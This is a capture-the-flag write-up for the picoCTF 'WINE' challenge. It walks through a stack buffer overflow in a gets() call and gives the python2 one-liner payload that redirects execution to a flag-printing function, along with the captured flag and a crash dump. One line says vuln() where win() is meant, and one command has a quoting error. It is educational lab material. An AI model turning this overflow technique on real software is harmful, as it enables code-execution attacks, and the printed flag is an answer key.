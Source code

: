 # WINE

## OVERVIEW & IDEA

- This challenge give us a 32-bit binary file and its source code.

```c
void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

- You can see that, this program uses dangerous function that cause buffer overflow `gets()`. We can take advantage of BOF to overwrite `RET` of `vuln()` to address of `win()`. So when `vuln()` implement all task, it will return to `win()` instead of return to the next instruction at main function.

## DETAILS

- Disassembling the `vuln()` I get this.

![img](/picoCTF/wine/assets/vuln_disass.png)

- You can see that the address of variable `buf` is at `ebp-0x88`. So we must overwrite `0x88 + 0x4 = 0x8c (140)` to reach the ret, and after that `140 bytes`, we put address of `vuln()` in little-endian presentation.

![img](/picoCTF/wine/assets/disass_win.png)

## EXPLOIT

```bash
python2 -c 'print("a"*140 + "\x30\x15\x40\x00") | ./vuln.exe
```

## RESULT

```
λ ~/picoCTF/wine/ python2 -c 'print("a"*140 + "\x30\x15\x40\x00")' | nc saturn.picoctf.net 60137
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_8ab00bc8}
Unhandled exception: page fault on read access to 0x7fec3900 in 32-bit code (0x7fec3900).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:7fec3900 ESP:0064fe84 EBP:61616161 EFLAGS:00010206(  R- --  I   - -P- )
 EAX:00000000 EBX:00230e78 ECX:0064fe14 EDX:7fec48f4
 ESI:00000005 EDI:0021d688
Stack dump:
0x0064fe84:  00000000 00000004 00000000 7b432ecc

.
.
.

```